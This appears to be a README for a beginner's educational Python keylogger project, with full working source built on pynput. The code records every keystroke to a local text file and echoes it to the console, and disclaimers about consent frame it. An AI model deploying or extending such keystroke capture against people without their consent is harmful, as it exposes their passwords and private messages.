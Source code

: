 # Basic Python Keylogger

---

This is a simple keylogger created in Python using `pynput`. The project was built in Visual Studio Code as part of my learning journey into cybersecurity and ethical hacking. It is intended **purely for educational purposes** — please do not use this unethically or without consent.

---

## What is a Keylogger?

A keylogger is a tool that records every keystroke made on a keyboard. It is often used to monitor user input and store that input into a file. While it can be used maliciously, it is also useful for educational demonstrations, user testing, and parental controls (when legally and ethically applied).

---

## Installation

Make sure Python is installed, then install the required package using the command below:

```bash
python -m pip install pynput
```
Then save the following code as keylogger.py and run it:
```
# Import the keyboard listener module from pynput
from pynput import keyboard

# Define the function to run when a key is pressed
def keyPressed(key):
    print(str(key))  # Print the pressed key to the console

    # Open or create a text file to store the logged keys
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Try to write the character to the file
            char = key.char
            logKey.write(char)
        except:
            # If it’s a special key (e.g. Enter, Shift), it might not have a char attribute
            print("Error getting char")

# Only run this section if the script is executed directly (not imported)
if __name__ == "__main__": 
    # Create a listener that triggers keyPressed whenever a key is pressed
    listener = keyboard.Listener(on_press=keyPressed)
    
    # Start the listener in the background
    listener.start()
    
    # Keep the program running with user input to prevent it from closing
    input()
```
# Disclaimer
This project is for educational purposes only. Using keyloggers without explicit permission is illegal and unethical. Always ensure you have proper consent before running this or similar software on any device.
